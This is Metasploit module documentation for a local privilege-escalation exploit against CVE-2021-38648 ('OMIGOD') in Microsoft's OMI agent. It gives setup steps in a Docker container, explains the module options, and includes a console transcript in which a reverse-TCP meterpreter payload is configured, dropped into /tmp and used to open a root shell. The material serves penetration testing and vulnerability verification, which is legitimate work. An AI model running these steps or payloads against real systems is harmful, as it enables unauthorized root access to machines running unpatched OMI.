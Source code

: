## Vulnerable Application

By removing the authentication exchange, an attacker can issue requests to the local OMI management socket that will
cause it to execute an operating system command as the root user. This vulnerability was patched in OMI version 1.6.8-1
(released September 8th 2021).

## Verification Steps

1. Start the application using the [Censys Dockerfile][1]
    1. `docker build . -t ms-omi:cve-2021-38648`
    2. `docker run -it --entrypoint /bin/bash ms-omi:cve-2021-38648`
    3. `/etc/init.d/omid restart`
2. Start `msfconsole`
3. Obtain a session within the container
    * The `exploit/multi/script/web_delivery` works well for this purpose
5. Do: `use exploit/linux/local/cve_2021_38648_omigod`
6. Set the module options
7. Do: `exploit`
8. You should get a root shell.

## Options

### WritableDir
*This is an advanced option.*

A directory where you can write files. When using the `Linux Dropper` target, this option must be an absolute path and
less than 246 characters long.

### SocketPath
*This is an advanced option.*

The path to the OMI server socket. The default path is `/var/opt/omi/run/omiserver.sock` however when this option is
left blank, it will be determined at runtime.

## Scenarios

### Ubuntu 20.04 x64, OMI v1.6.8, SCX v1.6.6

```
msf > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: smcintyre
meterpreter > background 
[*] Backgrounding session 1...
msf > use exploit/linux/local/cve_2021_38648_omigod 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2021_38648_omigod) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf exploit(linux/local/cve_2021_38648_omigod) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2021_38648_omigod) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(linux/local/cve_2021_38648_omigod) > set SESSION 1
SESSION => 1
msf exploit(linux/local/cve_2021_38648_omigod) > check
[*] The target appears to be vulnerable. Version 1.6.8-0 is affected.
msf exploit(linux/local/cve_2021_38648_omigod) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.6.8-0 is affected.
[*] Writing '/tmp/zbACyVFZyT' (250 bytes) ...
[*] Writing '/tmp/OJ3FZ2W.py' (3824 bytes) ...
[*] Sending stage (3012548 bytes) to 192.168.159.128
[+] Deleted /tmp/zbACyVFZyT
[+] Deleted /tmp/OJ3FZ2W.py
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.128:51870 ) at 2021-10-27 11:47:48 -0400

meterpreter > getuid
Server username: root
meterpreter > 
```

[1]: https://gist.github.com/dabdine/ac6aadde068cad4d58251453e688a84f
